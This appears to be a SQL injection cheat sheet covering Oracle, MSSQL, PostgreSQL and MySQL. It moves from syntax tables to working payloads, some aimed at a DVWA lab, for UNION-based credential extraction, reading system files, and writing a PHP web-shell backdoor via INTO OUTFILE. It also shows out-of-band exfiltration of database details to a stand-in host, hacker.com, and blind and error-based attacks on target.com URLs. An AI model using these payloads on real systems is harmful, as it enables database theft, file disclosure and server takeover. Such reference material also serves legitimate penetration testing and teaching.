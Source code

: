 #### comments

| syntax | type |
|:---:|:---:|
|```--comment```|*oracle, microsoft, postgresql*|
|```-- comment```|*mysql*|
|```/*comment*/```|*microsoft, postgresql, mysql*|

-----


#### string concatenation

| syntax | type |
|:---:|:---:|
|```'foo'\|\|'bar'```|*oracle, postgresql*|
|```'foo'+'bar'```|*microsoft*|
|```'foo' 'bar'```|*mysql*|
|```CONCAT('foo','bar')```|*mysql*|

-----


#### version

| syntax | type |
|:---:|:---:|
|```SELECT version FROM v$instance```|*oracle*|
|```SELECT banner from v$instance```|*oracle*|
|```SELECT @@version```|*microsoft, mysql*|
|```SELECT version()```|*postgresql*|

```IF(MID(@@version,1,1) = '5', SLEEP(5), 0);```

-----


#### database contents

| syntax | type |
|:---:|:---:|
|```SELECT * FROM all_tables```|*oracle*|
|```SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'```|*oracle*|
|```SELECT * FROM information_schema.tables```|*microsoft, postgresql, mysql*|
|```SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'```|*microsoft, postgresql, mysql*|

-----


#### conditional errors

| syntax | type |
|:---:|:---:|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual```|*oracle*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END```|*microsoft*|
|```SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END```|*postgresql*|
|```SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')```|*mysql*|

-----


#### time delays

| syntax | type |
|:---:|:---:|
|```dbms_pipe.receive_message(('a'),10)```|*oracle*|
|```WAITFOR DELAY '0:0:10'```|*microsoft*|
|```SELECT pg_sleep(10)```|*postgresql*|
|```SELECT sleep(10)```|*mysql*|

-----


#### union statements

*web app*

```SELECT first_name, last_name FROM users UNION SELECT username, password FROM login;```

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1%3B--*

```User ID: 1’ UNION SELECT 1;- -``` *no data different number of columns*

*attack: http://localhost:81/dvwa/vulnerabilities/sqli/?id=1%27+UNION+SELECT+1,2%3B--*

```User ID: 1’ UNION SELECT 1,2;- -``` *returns data (number of columns match)*

*load hosts file*

```union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6```

*write php backdoor*

```union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'```

-----


#### table/column enumeration

*extract list of tables*

```1' UNION SELECT 1,table_name FROM information_schema.tables;- -```

*extract column names*

```1' UNION SELECT 1,column_name FROM information_schema.columns;- -```

*concat and extract data*

```1' UNION SELECT 1,concat(user,':',password) FROM users;- -```

-----


#### out of band

*database version*

```1’;select load_file(concat('\\\\',version(),'.hacker.com\\s.txt'));```

*database name*

```1’;select load_file(concat('\\\\',database(),'.hacker.com\\s.txt'));```

-----


#### blind queries

*if not 'sa' wait for 10 seconds*

```http://target.com/page.asp?id=1;if+not(select+system_user)+<>+'sa'+waitfor+delay+'0:0:10'--```

-----


#### mssql

*error based, extract user*

```http://target.com/page.asp?id=1 or 1=convert(int,(USER))--```

*union based extract user (use null where data type not known, column number must match)*

```http://target.com/page.asp?id=null UNION SELECT ALL 1,USER,3,4--```

-----
